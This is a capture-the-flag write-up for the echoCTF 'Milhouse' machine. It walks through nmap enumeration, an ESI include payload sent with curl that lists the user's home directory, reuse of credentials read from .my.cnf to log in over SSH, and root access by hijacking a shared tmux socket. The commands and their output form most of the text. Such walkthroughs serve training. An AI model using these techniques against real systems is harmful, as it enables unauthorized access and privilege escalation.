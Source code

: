 ```yaml
---
layout: post
title: Milhouse
feature-img: "assets/img/portfolio/milhouse.png"
img: "assets/img/portfolio/milhouse.png"
date: 13 sep 2021
tags: [Lorem, Ipsum]
---
```




[milhouse](https://echoctf.red/target/16)


machine description:

Milhouse, a side character included into the infrastructure. Although he's closest relative in our network is barney, they have nothing to do with each other.

I mean Milhouse was born on August 2001 and Barney sometime around 1993

---

### Enumartion


```
nmap -sC -sV -p- 10.0.200.29  

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 c8:1f:4f:6e:d0:8e:77:2a:76:9a:e9:59:f8:a0:d5:a3 (RSA)
|   256 e9:3a:ac:63:e3:9c:11:9e:60:6d:29:0c:a9:95:2f:33 (ECDSA)
|_  256 52:9e:9d:6d:d7:bf:07:32:85:87:95:89:a4:be:ce:b1 (ED25519)

80/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### vulnerability

Node.js Express framework


### Exploit 

from hint i understood it server side include.

[Node.js Express framework](https://haboob.sa/ctf/nullcon-2019/blog.html)

after some playing with payloads i found sveral errors that lead me to try: 

```
curl -XGET "http://10.0.200.29/?=%3Cesi:include%20src=%22http://127.0.0.1/%22%20/%3E"

Hello from Express! Request:/?=<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /</title>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="%2520ETSCTF">%20ETSCTF</a>
<li><a href=".bash_history">.bash_history</a>
<li><a href=".bash_logout">.bash_logout</a>
<li><a href=".bashrc">.bashrc</a>
<li><a href=".my.cnf">.my.cnf</a>
<li><a href=".profile">.profile</a>
</ul>
<hr>
</body>
</html>

```

so now we can read files from users folder.

### Rce

reading my.cnf file gives us information for user,pass,home folder and some history commands. 
try user and pass from my.cnf  the pass didnt worked for login via ssh. 
i noticed that the user is ETSCTF, so i tried same pass and im in. 

```
ssh ETSCTF@10.0.200.29                                                                                                                   130 ⨯
ETSCTF@10.0.200.29's password: 
Linux milhouse.echocity-f.com 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ETSCTF@milhouse:~$ 
ETSCTF@milhouse:~$ 

```


### Privilege escalation

sudo -l - user is not in souders file.
ps -aux | grep root 

```

root        50  0.0  0.0  26624  2816 ?        Ss   06:31   0:00 tmux new -d -s 0 cd /root; python /app/server.py 127.0.0.1:80
root        51  0.0  0.0   9492  2484 pts/1    Ss+  06:31   0:00  _ bash -c cd /root; python /app/server.py 127.0.0.1:80
root        53  0.0  0.3  38444 12756 pts/1    S+   06:31   0:00      _ python /app/server.py 127.0.0.1:80
root        56  0.0  0.0  26624  2680 ?        Ss   06:31   0:00 tmux -S /tmp/tmux-shared new -d -s 0

```

tmux

what is tumux> 

[tmux man](https://man7.org/linux/man-pages/man1/tmux.1.html)

DESCRIPTION:

tmux is a terminal multiplexer: it enables a number of terminals to
be created, accessed, and controlled from a single screen.  
tmuxmay be detached from a screen and continue running in the
background, then later reattached.

lets try to find how can i connect to tmux terminal. 

[tmux_priv](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0l)
after understandng the vuln, i found in /tmp folder:
```
ETSCTF@milhouse:/tmp$ ls -la tmux-shared
srw-rw---- 1 root nogroup 0 Jul 11 06:31 tmux-shared
ETSCTF@milhouse:/tmp$ 

```
lets try to connect:

*tmux -S tmux-shared*

and we got root. 

*root@milhouse:/tmp#*
